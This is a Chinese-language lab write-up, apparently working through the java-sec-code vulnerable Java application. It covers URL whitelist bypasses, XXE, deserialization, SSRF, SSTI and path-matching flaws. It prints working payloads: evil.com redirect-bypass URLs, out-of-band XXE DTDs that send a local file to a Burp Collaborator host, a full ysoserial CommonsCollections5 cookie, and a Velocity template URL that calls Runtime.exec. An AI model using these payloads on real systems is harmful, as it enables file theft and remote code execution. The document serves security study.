











最后这里执行。

# URLWhiteList

* **路径：**/url/vuln/endsWith

```java
private String domainwhitelist[] = {"joychou.org", "joychou.com"};
public String endsWith(@RequestParam("url") String url) {

    String host = SecurityUtil.gethost(url);

    for (String domain : domainwhitelist) {
        if (host.endsWith(domain)) {
            return "Good url.";
        }
    }
    return "Bad url.";
}
```

这里只检查了`host.endWith(domain)`，也就是说只要`host`的后面和`domain`一样就行。

也就是说，`http://aaajoychou.org`这种东西可以绕过。

* **路径：**/url/vuln/contains

```java
private String domainwhitelist[] = {"joychou.org", "joychou.com"};
public String contains(@RequestParam("url") String url) {

    String host = SecurityUtil.gethost(url);

    for (String domain : domainwhitelist) {
        if (host.contains(domain)) {
            return "Good url.";
        }
    }
    return "Bad url.";
}
```

`host.contains(domain)`，这里只要包含就好了，唔。

`String host = SecurityUtil.gethost(url);`这里是会拿到host的，所以domain不能包含在问号什么的后面。所以绕过方式可以是这样：

payload：`?url=http://joychou.org.www.baidu.com`

* **路径：**/url/vuln/contains

```java
public String regex(@RequestParam("url") String url) {

    String host = SecurityUtil.gethost(url);
    Pattern p = Pattern.compile("joychou\\.org$");
    Matcher m = p.matcher(host);

    if (m.find()) {
        return "Good url.";
    } else {
        return "Bad url.";
    }
}
```

正则表达式：`joychou\.org$`

可视化后如下：


这个也就是要最后必须是`joychou.org`，和第一题一样。

* **路径：**/url/vuln/url_bypass

```java
private String domainwhitelist[] = {"joychou.org", "joychou.com"};
public String url_bypass(String url) throws MalformedURLException {

    logger.info("url:  " + url);

    if (!SecurityUtil.isHttp(url)) {
        return "Url is not http or https";
    }

    URL u = new URL(url);
    String host = u.getHost();
    logger.info("host:  " + host);

    // endsWith .
    for (String domain : domainwhitelist) {
        if (host.endsWith("." + domain)) {
            return "Good url.";
        }
    }

    return "Bad url.";
}
```

这里没有使用`SecurityUtil.gethost()`来获取host了，感觉有机可趁。这里最后还是要用`.joychou.org`或者`.joychou.com`。

**原理：**

[利用URL特性绕过域名白名单检测](https://blog.csdn.net/change518/article/details/54286473)

`?url=http://evil.com%23@www.joychou.org/a.html`，URL类getHost为`www.joychou.org`，在白名单中。但是通过浏览器直接访问`http://evil.com#@www.joychou.org/a.html`，浏览器请求的是evil.com，导致绕过。

类似的payload还有：

```
?url=http://evil.com%23www.joychou.org/a.html
?url=http://evil.com%5ca.whitelist.com
?url=http://evil.com%5c@a.whitelist.com
```

# XXE

[XXE 漏洞](https://xz.aliyun.com/t/3357)

(**Content-Type: aplication/xml**)

* **路径：**/xxe/xmlReader/vuln

先试了一个最简单的payload。

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
]>
<root>&xxe;</root>
```

然后发现返回了`xmlReader xxe vuln code`。突然发现有戏，因为这个代码全部执行了。

这个时候我们需要构造一个回显（因为这里没有回显）。

我一开始试了一下这个payload：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
<!ENTITY % init "<!ENTITY send SYSTEM 'http://hteaatkadg361m7x2hzb69byjppfd4.burpcollaborator.net?p=%file;'>">
%init;
]>
<root>&send;</root>
// 自己不能引用自己的参数实体。
```

我试图将读出来的文件用参数实体file导入到参数实体init中，然后调用init构造send，然后调用send将file作为参数去请求burp的burpcollaborator来达到传递file的目的。

然后发现不行，IDEA报错：

`The parameter entity reference "%file;" cannot occur within markup in the internal subset of the DTD.`也就是说init是和file都是一个dtd文件里面的参数实体，不能互相引用。

所以报错出在init对file的引用那里。

那好，我就将这两个分开。

构造第二个payload：

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % file SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
<!ENTITY % remote SYSTEM "http://127.0.0.1:80/1.dtd">
%remote;%init;%send;
]>

1.dtd:
<!ENTITY % init "<!ENTITY % send SYSTEM 'http://3eisdrnsxq6zrx8xz2fskb7gy74zso.burpcollaborator.net?p=%file;'>">
```

这里的思路是传入了的dtd的地址（用phpstudy来作为存放dtd文件的服务器），然后用相当于包含的方式来引入1.dtd。

又报错了：`The entity name must immediately follow the '%' in the parameter entity reference.`这里说的是，引入的1.dtd文件中`<!ENTITY % send SYSTEM`的那个百分号发生了解析错误。这里将百分号换成HTML实体编码`&#37;`就可以了。

所以最终的payload：

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % file SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
<!ENTITY % remote SYSTEM "http://127.0.0.1:80/1.dtd">
%remote;%init;%send;
]>

1.dtd:
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://3eisdrnsxq6zrx8xz2fskb7gy74zso.burpcollaborator.net?p=%file;'>">
```

虽然这里还是会报错：

`systemId: http://3eisdrnsxq6zrx8xz2fskb7gy74zso.burpcollaborator.net?p=aefasfaew; lineNumber: 1; columnNumber: 2; The markup declarations contained or pointed to by the document type declaration must be well-formed.`

说的是从`burpcollaborator`返回的文件不符合格式要求（本来就不符合），因为返回的是一串意义不明的字符串（`zrr2t2q11dq9sjx8ixbfxjzjkgz`），当然不是合适的dtd格式的文件。

但是我们外传file的目的已经达到了：因为已经成功请求了`burpcollaborator`，将file作为参数传了出来。

**疑惑：**

这里要是把file和init都放到1.dtd文件里面都可以。

也就是说可以这样：

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://127.0.0.1:80/1.dtd">
%remote;%init;%send;
]>

1.dtd:
<?xml version="1.0" encoding="UTF-8"?>  // 可要可不要
<!ENTITY % file SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://3eisdrnsxq6zrx8xz2fskb7gy74zso.burpcollaborator.net?p=%file;'>">
```

尝试解释：

原来的报错是：参数实体引用“％file;” 不能在DTD的内部**子集**中的标记内发生。 

但是这里的1.dtd文件并没有DOCTYPE等标签作为一个集合的标识，只有ENTITY标签，所以不能算作一个集合。

**继续：**

如果这个读取的文件里面有特殊字符（如`<`等）怎么办？

还用原来的payload可不可以？

部分可以。

因为这里是用的参数实体来进行的拼接，拼接完成之后就直接发送了。如果字符串1.txt里面没有`'或"`这种可以封闭的字符串的东西的话，应该是没有问题的。那如果有呢？

这时候就需要CDATA了。

用`<![CDATA[`和`]]>`包起来的部分只会被当作纯字符串数据，缺点：`]]>`不能嵌套。

构造paylaod：

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
<!ENTITY % end "]]>">
<!ENTITY % remote SYSTEM "http://192.168.101.6:80/1.dtd">
%remote;%init;%send;
]>

1.dtd：
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://3eisdrnsxq6zrx8xz2fskb7gy74zso.burpcollaborator.net?p=%start;%file;%end;'>">

此时1.txt的文件内容为：
aefasf'<!aew
```

但是就算加上了CDATA还是报错了。

说send必须以`>`结尾，也就是说CDATA并没有将单引号转义。

最后试了无数次发现CDATA并不能阻止单引号闭合。

而且这个xml解析器不认反斜杠转义符，也不认单引号的html实体编码。

如果是PHP的xml解析器的话，可以用php://filter伪协议进行base64转码，然后再送出来。

但是这个不行，这个是java的xml解析器。蒙了。

去查了一下，好像也没有什么好的办法，那就这样吧。

总结一下，这个玩意儿，只能读**一行的文件（url不允许有\n,\r的出现）**，且**几乎不能有特殊字符**。

* **路径：**/xxe/SAXBuilder/vuln

* **路径：**/xxe/SAXBuilder/vuln 

* **路径：**/xxe/SAXParser/vuln /Digester/vuln
* **路径：**/xxe/Digester/vuln
* **路径：**/xxe/DocumentBuilder/xinclude/vuln

* **路径：**/xxe/XMLReader/vuln
* **路径：**/xxe/DocumentHelper/vuln

一个payload走天下。


* **路径：**/xxe/DocumentBuilder/vuln01
* **路径：**/xxe/DocumentBuilder/vuln02

这两个是有回显的。

直接尝试最简单的payload：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
]>
<root>&xxe;</root>
```

直接返回了：`#text: Digestervuln`，直接就返回了文件内容。

应该也可以用前面那个payload。

这些上面的漏洞的修复方式都是用的[`setFeature()`函数](https://blog.csdn.net/scmrpu/article/details/50423701)。

|                           特性                            |                             解释                             |
| :-------------------------------------------------------: | :----------------------------------------------------------: |
|  `http://xml.org/sax/features/external-general-entities`  | 是否包含外部生成的实体。当正在解析文档时为只读属性，未解析文档的状态下为读写。 |
| `http://xml.org/sax/features/external-parameter-entities` | 是否包含外部的参数，包括外部DTD子集。当正在解析文档时为只读属性，未解析文档的状态下为读写。 |
|  `http://apache.org/xml/features/disallow-doctype-decl`   |               设置为“真”时, 不允许使用 DOCTYPE               |

# ooxmlXXE

[利用 EXCEL 文件进行 XXE 攻击的漏洞分析(参考资料)](https://www.mdeditor.tw/pl/2inW)





根据CVE漏洞的利用原理，先将1.xlsx解压缩。



然后打开xml文件，进行注入xxe，红色框里的东西是加进去的，其他都没有动。



然后要压缩回去。怎么压缩回去呢，先尝试了一下用7-zip直接压缩回去，选择的是zip的压缩方法，改了个后缀名。压缩完成之后果然打不开。但还是传上去试了一下。


居然还执行成功了。


**漏洞原理：**

1. 


2. 


3. 


4. 


5. 


6. 程序执行至getPartsImpl()函数中匹配出了[Content-Types].xml文件（在这个while中要循环好几次），并文件数据流传入至ZipContentTypeManager中：

    

    

7. ZipContentTypeManager调用ContentTypeManager()函数，ContentTypeManager()函数中把数据传入了parseContentTypesFile()函数进行处理：

    

8. parseContentTypesFile()函数未进行XXE漏洞防护，直接对XML数据进行解析：


# xIsxStreamerXXE

[利用 EXCEL 文件进行 XXE 攻击的漏洞分析(参考资料)](https://www.mdeditor.tw/pl/2inW)

注入方法和ooxmlxxe一模一样，除了文件改了一下，注入的文件变成了workbook.xml


发送出去后，经典报错：

`[Fatal Error] lod3bve7g9jlqix0hji537c3eukk89.burpcollaborator.net?p=xIsxStreamerXXE:1:2: The markup declarations contained or pointed to by the document type declaration must be well-formed.`

说明是已经成功了（如果出现了这种报错，但是collaborator的那个请求一直poll都不出来，等了好久也不出来，不用怀疑，就是你的collaborator罢工了，重开一下，重新来一次）。


# Cors & CSRF

[跨源资源共享(CORS)](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)

这里的目的是通过Cors漏洞去攻击CSRF网页。因为CSRF网页只要cookie和post的_csrf相同便可以通过验证。

但同时，一旦跨域，设置的cookie便不可以传递。


这里看到从myhost发出的请求并没有包含任何的cookie。

而这个cors的网页是可以允许任意origin请求的。


而且，进入了cors网页之后，会分配一个cookie：XSRF-TOKEN。而且这个cookie进入csrf网页也是不会变的。


那么现在目标就是，进入cors网页，拿到cookie，然后再想办法通过这个cookie跨域进入csrf。

现在有一个问题，就是跨域进入的时候，会刷新XSRF-TOKEN。

# Deserialize

漏洞代码：

```java
@RequestMapping("/rememberMe/vuln")
public String rememberMeVul(HttpServletRequest request)
    throws IOException, ClassNotFoundException {

    Cookie cookie = getCookie(request, Constants.REMEMBER_ME_COOKIE);

    if (null == cookie) {
        return "No rememberMe cookie. Right?";
    }

    String rememberMe = cookie.getValue();
    byte[] decoded = Base64.getDecoder().decode(rememberMe);

    ByteArrayInputStream bytes = new ByteArrayInputStream(decoded);
    ObjectInputStream in = new ObjectInputStream(bytes);
    in.readObject();
    in.close();

    return "Are u ok?";
}
```

这段代码：

* 先是检查检查rememberMe是否存在（不是登陆的那个remember-me）。

* 然后将rememberMe进行base64解码
* 之后把解码后的内容转为字节流数组
* 再将字节流数组转换成对象输入流
* 最后调用`readObject()`进行对象读取 & 反序列化

接下来构造poc：

* 使用ysoserial

* 根据版本选择命令：

    

    

* 在linux下运行命令：

    `java -jar ysoserial.jar CommonsCollections5 calc | base64`

    `java -jar ysoserial.jar CommonsCollections5 calc.exe | base64`

    

* 抓包，放入burp。（记得将换行删了，如果有的话）

    ```
    rememberMe=rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAA3NyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAUXQAJnlzb3NlcmlhbC5wYXlsb2Fkcy5Db21tb25zQ29sbGVjdGlvbnM1dAAYQ29tbW9uc0NvbGxlY3Rpb25zNS5qYXZhdAAJZ2V0T2JqZWN0c3EAfgALAAAAM3EAfgANcQB+AA5xAH4AD3NxAH4ACwAAACJ0ABl5c29zZXJpYWwuR2VuZXJhdGVQYXlsb2FkdAAUR2VuZXJhdGVQYXlsb2FkLmphdmF0AARtYWluc3IAJmphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVMaXN0/A8lMbXsjhACAAFMAARsaXN0cQB+AAd4cgAsamF2YS51dGlsLkNvbGxlY3Rpb25zJFVubW9kaWZpYWJsZUNvbGxlY3Rpb24ZQgCAy173HgIAAUwAAWN0ABZMamF2YS91dGlsL0NvbGxlY3Rpb247eHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHhxAH4AGnhzcgA0b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmtleXZhbHVlLlRpZWRNYXBFbnRyeYqt0ps5wR/bAgACTAADa2V5cQB+AAFMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAF4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWVxAH4ABVsAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXVyABJbTGphdmEubGFuZy5DbGFzczurFteuy81amQIAAHhwAAAAAHQACWdldE1ldGhvZHVxAH4AMgAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+ADJzcQB+ACt1cQB+AC8AAAACcHVxAH4ALwAAAAB0AAZpbnZva2V1cQB+ADIAAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAvc3EAfgArdXIAE1tMamF2YS5sYW5nLlN0cmluZzut0lbn6R17RwIAAHhwAAAAAXQABGNhbGN0AARleGVjdXEAfgAyAAAAAXEAfgA3c3EAfgAnc3IAEWphdmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cAAAAAFzcgARamF2YS51dGlsLkhhc2hNYXAFB9rBwxZg0QMAAkYACmxvYWRGYWN0b3JJAAl0aHJlc2hvbGR4cD9AAAAAAAAAdwgAAAAQAAAAAHh4
    ```
    
* 成功弹出计算器。
  
    

# IPForge

代码：

```java
@RequestMapping("/proxy")
@ResponseBody
public static String proxy(HttpServletRequest request) {
    String ip = request.getHeader("X-Real-IP");
    if (StringUtils.isNotBlank(ip)) {
        return ip;
    } else {
        String remoteAddr = request.getRemoteAddr();
        if (StringUtils.isNotBlank(remoteAddr)) {
            return remoteAddr;
        }
    }
    return "";
}
```

代码逻辑：

* 从请求头中获取`X-Real-IP`
    * 如果IP不是被禁止的IP，则返回IP
    * 如果是被禁止的IP，则获取远端的地址
        * 如果远端地址没被禁止，返回远端的IP
        * 如果远端地址依旧被禁止，则返回空字符串

这个可以直接抓包修改`X-Real-IP`就好了。


# Jsonp

* 路径：/jsonp/vuln/referer

```java
public String referer(HttpServletRequest request) {
    String callback = request.getParameter(this.callback);
    return WebUtils.json2Jsonp(callback, LoginUtils.getUserInfo2JsonStr(request));
}
```

​    POC：

```html
 <html>
 <body>
 <script>
 function jsonp(info){
  for(var x in info){
  alert(x + " " + info[x]);
  }
 }
 </script>
 <script type="text/javascript" src=http://192.168.0.6:8079/jsonp/vuln/referer?callback_=jsonp></script>
 </body>
 </html>
```

卡在了跨域，触发了CORB（返回的里面有：`X-Content-Type-Options: nosniff`）

# SSRF

* 路径：/ssrf/urlConnection/vuln

```java
public String URLConnectionVuln(String url) {
    return HttpUtils.URLConnection(url);
}
public static String URLConnection(String url) {
    try {
        URL u = new URL(url);
        URLConnection urlConnection = u.openConnection();
        BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream())); //send request
        String inputLine;
        StringBuilder html = new StringBuilder();

        while ((inputLine = in.readLine()) != null) {
            html.append(inputLine);
        }
        in.close();
        return html.toString();
    } catch (Exception e) {
        logger.error(e.getMessage());
        return e.getMessage();
    }
}
```

可以看到传入的url直接读取，没有任何过滤。

POC：


* 路径：/ssrf/openStream

```java
public void openStream(@RequestParam String url, HttpServletResponse response) throws IOException {
    InputStream inputStream = null;
    OutputStream outputStream = null;
    try {
        String downLoadImgFileName = WebUtils.getNameWithoutExtension(url) + "." + WebUtils.getFileExtension(url);
        // download
        response.setHeader("content-disposition", "attachment;fileName=" + downLoadImgFileName);

        URL u = new URL(url);
        int length;
        byte[] bytes = new byte[1024];
        inputStream = u.openStream(); // send request
        outputStream = response.getOutputStream();
        while ((length = inputStream.read(bytes)) > 0) {
            outputStream.write(bytes, 0, length);
        }

    } catch (Exception e) {
        logger.error(e.toString());
    } finally {
        if (inputStream != null) {
            inputStream.close();
        }
        if (outputStream != null) {
            outputStream.close();
        }
    }
}
```

这里也是没有任何过滤，直接就读取。


* 路径：/ssrf/HttpSyncClients/vuln

```java
public String HttpSyncClients(@RequestParam("url") String url) {
    return HttpUtils.HttpAsyncClients(url);
}
public static String HttpAsyncClients(String url) {
    CloseableHttpAsyncClient httpclient = HttpAsyncClients.createDefault();
    try {
        httpclient.start();
        final HttpGet request = new HttpGet(url);
        Future<HttpResponse> future = httpclient.execute(request, null);
        HttpResponse response = future.get(6000, TimeUnit.MILLISECONDS);
        return EntityUtils.toString(response.getEntity());
    } catch (Exception e) {
        return e.getMessage();
    } finally {
        try {
            httpclient.close();
        } catch (Exception e) {
            logger.error(e.getMessage());
        }
    }

}
```

用HTTPGet()函数去访问，虽然只能用http(s)协议，但是可以访问内网。


# SSTI

> SSTI（Server Side Template Inject），服务端模板注入。简而言之，就是我们的输入可以被插入到模板中，然后渲染返回。
>
> 而插入的模板可以根据模板特性构造java代码，进而实现信息泄露/RCE。

[漏洞原理](https://xz.aliyun.com/t/7466)

源码：

```java
public void velocity(String template) {
    Velocity.init();

    VelocityContext context = new VelocityContext();

    context.put("author", "Elliot A.");
    context.put("address", "217 E Broadway");
    context.put("phone", "555-1337");

    StringWriter swOut = new StringWriter();
    Velocity.evaluate(context, swOut, "test", template);
}
```

POC:

`http://localhost:8079/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)`

**复现：**

完整的调用链：


过程：


这里调用了execute方法。

在execute方法里面，关键代码：

```java
for(int i = 0; i < this.numChildren; ++i) {
    if (this.strictRef && result == null) {
        methodName = this.jjtGetChild(i).getFirstToken().image;
        throw new VelocityException("Attempted to access '" + methodName + "' on a null value at " + Log.formatFileString(this.uberInfo.getTemplateName(), this.jjtGetChild(i).getLine(), this.jjtGetChild(i).getColumn()));
    }

    previousResult = result;
    result = this.jjtGetChild(i).execute(result, context);
    if (result == null && !this.strictRef) {
        failedChild = i;
        break;
    }
}
```

> - 上面的for循环我就不说了它的作用了，我们焦点放在previousResult （之前的结果）和result上面。
> - previousResult = result;首先这行代码使其它们保持一致
> - 当遍历的节点时候，这时候就会一步步的保存我们的payload最终导致RCE

# GetRequestURI

```java
public String exclued(HttpServletRequest request) {

    String[] excluedPath = {"/css/**", "/js/**"};
    String uri = request.getRequestURI(); // Security: request.getServletPath()
    PathMatcher matcher = new AntPathMatcher();

    logger.info("getRequestURI: " + uri);
    logger.info("getServletPath: " + request.getServletPath());

    for (String path : excluedPath) {
        if (matcher.match(path, uri)) {
            return "You have bypassed the login page.";
        }
    }
    return "This is a login page >..<";
}
```

[CVE-2020-5902](https://cloud.tencent.com/developer/article/1659416)

> request.getRequestURL()：返回全路径；
>
> **1）分号；**
>
>   在URL中遇到;号会将;xxx/中的**分号与斜杠之间的字符串以及分号本身**都去掉
>
> **2）斜杆/**
>
>   判断是否有连续的/，存在的话则循环删除掉多余的/
>
> **3）./和../**
>
>  将/./删除掉、将/../进行跨目录拼接处理。
>
> 总结一下，分号可用在两种场景：
>
> ```javascript
> /;xxx/实现分割目录
> /..;/实现跨目录，常用在../被禁用的场景下
> ;.css或;.js等利用白名单绕过认证鉴权
